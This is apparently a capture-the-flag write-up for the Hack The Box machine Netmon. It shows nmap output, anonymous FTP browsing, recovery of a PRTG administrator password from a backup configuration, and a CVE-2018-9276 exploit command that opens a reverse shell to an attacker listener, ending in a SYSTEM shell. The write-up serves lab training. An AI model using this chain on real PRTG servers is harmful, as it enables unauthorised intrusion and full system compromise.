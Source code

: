# Netmon - Windows, easy (10.10.10.152)

### Enumeration
```
ORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### User flag
Just connect using ftp to the server and enter in \Users\Public to get file `user.txt` (just type `get user.txt` to download a copy).

### Privesc
For this part I have checked the website and here I could notice that it is hosting `PRTG Network Monitor 18.1.37.13946` and we are presented with a loging form.
Looking for exploits online there's not much we can do for now since they all require credentials.

My guess is to check the common files of PRTG through ftp.
[Here](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) we can see some folders and files that could be useful for us.
In particular, `%ALLUSERSPROFILE%\Application data\Paessler\PRTG Network Monitor` is the data folder where we can check for configuration files.
In fact, a file that could be useful is `PRTG Configuration.old` which is the backup of previous version of monitoring configuration.

Login again as anynimous user using ftp and then in `\Users` type `ls -al` otherwise some folders and files are not shown.
```
ftp> ls -al
229 Entering Extended Passive Mode (|||50522|)
150 Opening ASCII mode data connection.
02-25-19  11:44PM       <DIR>          Administrator
07-16-16  09:28AM       <DIR>          All Users
02-03-19  08:05AM       <DIR>          Default
07-16-16  09:28AM       <DIR>          Default User
07-16-16  09:16AM                  174 desktop.ini
09-10-22  04:07PM       <DIR>          Public
```

Now enter in `\All Users\Paessler\PRTG Network Monitor` and get file `PRTG Configuration.old`. Unfortunately here there's nothing, but in `PRTG Configuration.old.bak` we can notice the following credentials:
```
<!-- User: prtgadmin -->
PrTg@dmin2018
```

However the credentials did not work, but thinking at the situation, the file from which we obtained the credentials is an old backup, ending in 2018, but the machine
was released on HTB on `02 Mar 2019`, so, trying with 2019 instead of 2018 allows us to access correctly to the PRTG Dashboard as System Administrator!

At this point we can utilize the exploits found previously since we have a valid username and password.
In particular, I found [CVE-2018-9276](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9276) that allows us to exploit an OS command injection vulnerability by sending malformed parameters in sensor or notification management scenarios.
I used the following [script](https://github.com/A1vinSmith/CVE-2018-9276):
```
kali@kali:~/HackTheBox/retired/Windows/easy/Netmon/CVE-2018-9276$ ./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.13 --lport 4444 --user prtgadmin --password PrTg@dmin2019

nc -nlvp 4444
C:\Windows\system32>whoami
whoami
nt authority\system
```
